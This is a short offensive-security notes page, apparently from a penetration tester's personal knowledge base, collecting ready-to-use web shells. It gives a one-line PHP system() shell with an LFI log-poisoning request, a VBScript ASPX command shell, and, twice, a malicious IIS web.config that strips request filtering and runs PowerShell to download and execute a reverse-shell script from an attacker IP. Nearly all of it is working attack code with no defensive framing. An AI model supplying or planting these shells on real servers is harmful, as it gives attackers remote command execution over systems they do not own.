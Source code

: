 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
---
```



# PHP Web Shell

[GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include (LFI) (RFI)#Unzip File]]

# ASPX

[[Windows ASPX]]

## Generic Reverse Shells

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```

## Windows Nishang Shell

See [[3. Exploitation/Obtaining Remote Shells/Specific Shells/Windows/Windows#PowerShell]]

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
